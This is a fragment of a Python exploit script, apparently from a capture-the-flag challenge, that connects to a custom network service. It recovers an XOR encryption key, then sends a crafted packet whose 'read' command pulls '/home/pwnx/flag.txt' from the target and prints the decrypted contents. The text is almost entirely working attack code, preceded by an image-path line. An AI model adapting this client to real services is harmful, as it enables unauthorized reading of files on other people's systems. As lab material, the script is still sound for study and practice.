 ```python
    xor_result = ''.join(chr(ord(char) ^ enc_key) for char in string)
    return xor_result

def decrypt_string(string_bytes, enc_key):
    res = ""
    for v_byte in string_bytes:
        res += chr(v_byte ^ enc_key)

    return res

def send_packet_exec(sock, enc_key):
    p = Packet()

    p.header.magic_value    = get_word(0xff66)
    p.header.session_id     = get_word(0x101)
    p.header.command        = get_byte(0x20)
    p.header.unused         = get_byte(0x01)

    # Create the encrypted arguments body
    pp                      = "read"
    payload                 = chr(len(pp))
    payload                 += encrypt_string(pp, enc_key)

    pp                      = "/home/pwnx/flag.txt"
    payload                 += chr(len(pp))
    payload                 += encrypt_string(pp, enc_key)

    pp                      = "0"
    payload                 += chr(len(pp))
    payload                 += encrypt_string(pp, enc_key)

    encrypted_body          = bytearray(payload.encode("utf-8"))
    p.header.body_size      = get_word(len(encrypted_body))
    p.header.body_args      = encrypted_body
    
    packet = p.get()

    ff = open("/tmp/req2","wb")
    ff.write(packet)
    ff.close()

    sock.send(packet)
    res = sock.recv(0x100)
    file_content = decrypt_string(res[8:], enc_key)
    print("[*] File content: " + file_content)

    ff = open("/tmp/res2","wb")
    ff.write(res)
    ff.close()

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print_error("Needed parameters")
        sys.exit()

    target = sys.argv[1]
    port = int(sys.argv[2])

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target,port))

    enc_key = send_packet_hello(sock)
    print("[+] Encryption key found: " + hex(enc_key))
```